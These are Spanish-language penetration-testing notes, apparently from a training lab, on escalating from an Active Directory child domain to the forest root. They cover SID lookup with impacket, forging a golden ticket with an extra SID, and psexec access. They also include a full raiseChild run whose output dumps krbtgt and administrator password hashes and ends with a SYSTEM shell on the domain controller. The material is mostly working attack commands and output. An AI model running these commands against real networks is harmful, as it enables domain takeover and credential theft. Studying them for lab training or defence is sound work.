 ## Mediante Linux

### Conseguir el SID con impacket
- `impacket-lookupsid DOMAIN.LOCAL/USER@DC-IP`
- Ejemplo: `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"` 
    - `lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.5 | grep -B12 "Enterprise Admins"`

## Golden ticket con impacket
- `impacket-ticketer -nthash NT-HASH -domain DOMAIN.LOCAL -domain-sid DOMAIN-SID -extra-sid EXTRA-SID hacker`
- Exportamos la variable del ticket kerberos: `export KRB5CCNAME=hacker.ccache`
- Utilizamos psexec de impacket para entrar con este ticket `impacket-psexec DOMAIN.LOCAL/hacker@DC01.DOMAIN.LOCAL -k -no-pass -target-ip DC-IP`

## Automatizar este proceso con raiseChild de impacket
- Esta herramienta automatiza la escalación de dominio hijo a padre, necesitamos especificar el dominio objetivo con su DC, y credenciales en el dominio hijo. El script hará lo demás.
- `impacket-raiseChild -target-exec DC-IP CHILD.DOMAIN.LOCAL/user`

##### Ejemplo
```bash
┌─[htb-student@ea-attack01]─[~]
└──╼ $raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
Impacket v0.9.24.dev1+20211013.152215.3fe2d73a - Copyright 2021 SecureAuth Corporation

Password:
[*] Raising child domain LOGISTICS.INLANEFREIGHT.LOCAL
[*] Forest FQDN is: INLANEFREIGHT.LOCAL
[*] Raising LOGISTICS.INLANEFREIGHT.LOCAL to INLANEFREIGHT.LOCAL
[*] INLANEFREIGHT.LOCAL Enterprise Admin SID is: S-1-5-21-3842939050-3880317879-2865463114-519
[*] Getting credentials for LOGISTICS.INLANEFREIGHT.LOCAL
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:9d765b482771505cbe97411065964d5f:::
LOGISTICS.INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:d9a2d6659c2a182bc93913bbfa90ecbead94d49dad64d23996724390cb833fb8
[*] Getting credentials for INLANEFREIGHT.LOCAL
INLANEFREIGHT.LOCAL/krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
INLANEFREIGHT.LOCAL/krbtgt:aes256-cts-hmac-sha1-96s:69e57bd7e7421c3cfdab757af255d6af07d41b80913281e0c528d31e58e31e6d
[*] Target User account name is administrator
INLANEFREIGHT.LOCAL/administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
INLANEFREIGHT.LOCAL/administrator:aes256-cts-hmac-sha1-96s:de0aa78a8b9d622d3495315709ac3cb826d97a318ff4fe597da72905015e27b6
[*] Opening PSEXEC shell at ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
[*] Requesting shares on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Found writable share ADMIN$
[*] Uploading file KNAMkjZu.exe
[*] Opening SVCManager on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Creating service pxRD on ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL.....
[*] Starting service pxRD.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```
